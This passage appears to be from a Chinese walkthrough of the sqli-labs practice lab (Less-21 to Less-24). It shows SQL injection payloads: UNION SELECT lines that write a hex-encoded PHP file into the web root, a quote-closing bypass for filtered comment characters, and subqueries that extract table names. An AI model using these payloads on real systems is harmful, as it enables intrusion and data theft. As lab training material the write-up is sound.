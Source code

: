 
尝试写入文件，这里php文件内容使用16进制编码

```sql
uname=a') union select 11,22,0x3c3f3d706870696e666f28293b3f3e into outfile '/var/www/html/Less-21/4.php'#
```

![43](/medias/sqli-labs/43.png)


## Less-22

同上一关，单引号换为双引号类型了，没有括号包裹

```sql
uname=a" union select 11,22,0x3c3f3d706870696e666f28293b3f3e into outfile '/var/www/html/Less-22/1.php'#
```


## Less-23

一直绕过不去，看看源码，把原来用来注释掉后面内容的注释符给过滤掉了

![44](/medias/sqli-labs/44.png)

现在也可以sql注入，payload最后留个单引号闭合原有的单引号就可以了

```sql
?id=a' or 1='1
```

![45](/medias/sqli-labs/45.png)

这里不能使用order by测字段个数了

```sql
?id=0' union select 1,2,3,'4
```

![46](/medias/sqli-labs/46.png)

![47](/medias/sqli-labs/47.png)

套个子查询拿数据

```sql
?id=0' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),'3
```

![48](/medias/sqli-labs/48.png)

## Less-24

查看题目源码，注册功能上没有sql注入，即是有特殊字符，也会转义
